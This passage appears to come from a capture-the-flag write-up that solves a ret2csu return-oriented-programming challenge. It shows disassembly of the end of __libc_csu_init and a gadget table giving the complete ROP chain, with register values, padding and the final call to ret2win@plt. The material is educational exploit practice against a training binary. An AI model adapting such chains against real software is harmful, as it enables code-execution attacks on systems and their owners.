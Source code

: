 Damned ! rdi is not completely loaded  by mov edi, r13d

    ni again :

We have to execute correctly the end of the csu_init function :

``` sh
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
│       └─> 0x00400696      4883c408       add rsp, 8
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
```
But it'snt all folks !.
We have to finish the function csu_init to  continue our ropchain.

1. There is a bad jump to 0x400680 if rpb != rbp+1
We will set rbx=0 and rbp=1
2. rsp is incremented by one word.
We will put a junk entry on the stack
3. We need 6 values on the stack before the final ret
4. Add a pop rdi gadget for a complete value.
5. ret2win !

|address   | gadget | comment |
|----------|--------------|-----|
|0x0040069a | pop rbx; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret |
| 0x0  | | rbx set to 0 for nex line
| 0x1  | | rbp set the condition rbp == rbx + 1 |
|0x0600e48 | |r12 set to .dynamics + 48 => @.fini|
|0xdeadbeefdeadbeef || r13 |
|0xcafebabecafebabe || r14 |
|0xd00df00dd00df00d || r15 |
|0x00400680 | mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8] | call gadget
|0 | |junk for add rsp,8 |
|1 | |for pop rbx |
|2 | |pop rbp |
|3 | |pop r12 |
|4 | |pop r13 |
|5 | |pop r14 |
|6 | |pop r15 |
|0x004006a3 | pop rdi | argument
|0xdeadbeefdeadbeef || rdi |
|0x00400510 | ret2win@plt | finale call
